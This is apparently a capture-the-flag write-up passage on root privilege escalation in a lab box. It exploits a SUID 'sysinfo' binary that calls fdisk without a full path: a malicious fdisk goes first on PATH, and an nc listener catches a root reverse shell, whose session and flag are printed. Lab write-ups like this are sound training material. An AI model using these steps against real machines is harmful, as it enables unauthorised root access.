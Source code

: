 After running linpeas the script discovers a binary with the SUID bit set

![linPEAS SUID Binary](https://jackhack.se/assets/images/magic/linpeas.png)
{: .full}

Running the binary shows a bunch of system information gathered from commands like *fdisk* and *free* and so on. Running **strings** on the binary confirms that those are some of the commands used to get the information.

~~~
theseus@ubuntu:/tmp/yaagn$ strings /bin/sysinfo

--snip--
popen() failed!             
====================Hardware Info====================
lshw -short                
====================Disk Info====================
fdisk -l                                  
====================CPU Info==================== 
cat /proc/cpuinfo                
====================MEM Usage===================== 
free -h
--snip--
~~~
{: .language-bash}

Also the script is not specifying the full path to the binaries *fdisk* and *free* wich means that Ubuntu will use the directories in the $PATH variable to find the binaries and run them. Therefore i should be able to exploit this using path injection.

I will use the same python payload wich gave me the initial shell from the web-part. Add it to a file called *fdisk*, make the file executeable and add my current directory to the $PATH variable.

~~~
theseus@ubuntu:/tmp/yaagn$ nano fdisk
theseus@ubuntu:/tmp/yaagn$ chmod +x fdisk
theseus@ubuntu:/tmp/yaagn$ export PATH=.:$PATH
theseus@ubuntu:/tmp/yaagn$ sysinfo
~~~
{: .language-bash}


Since the SUID bit is set on the *sysinfo* binary, the program is running as root and when it runs my modified *fdisk* program, i will recieve a reverse shell as root. Further reading about exploiting SUID [here](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)


~~~
┌──(kali@kali)-[~/boxes/magic]
└─$ nc -lvnp 9002                                                                                                
listening on [any] 9002 ...
connect to [10.10.14.40] from (UNKNOWN) [10.10.10.185] 56930
# id
uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus)
# cd /root/
# cat root.txt
09c37b2232af90d7b1608df3dbebf061
~~~
{: .language-bash}
